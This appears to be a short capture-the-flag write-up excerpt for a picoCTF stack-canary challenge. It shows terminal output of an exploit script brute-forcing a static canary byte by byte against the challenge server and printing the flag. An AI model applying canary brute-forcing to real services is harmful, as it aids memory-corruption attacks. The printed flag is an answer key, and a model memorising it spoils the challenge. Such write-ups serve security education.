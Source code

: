 # FLAG
```bash
$ python3 test.py
[+] Found Canary: b'B'
[+] Found Canary: b'Bi'
[+] Found Canary: b'BiR'
[+] Found Canary: b'BiRd'
Ok... Now Where's the Flag?
picoCTF{Stat1C_c4n4r13s_4R3_b4D_0bf0b08e}
$
```
<br />

> [!NOTE]
> tqdm_ver
>```bash
>$ python3 test.py saturn.picoctf.net 52435
>[+] Opening connection to saturn.picoctf.net on port 52435: Done
>[+] Found Canary: b'BiRd'
>[+] Finding Canary: 100%|=====================| 400/400 [01:44<00:00,  3.81it/s]
>[*] Switching to interactive mode
> Ok... Now Where's the Flag?
>picoCTF{Stat1C_c4n4r13s_4R3_b4D_0bf0b08e}
>[*] Got EOF while reading in interactive
>$
>```
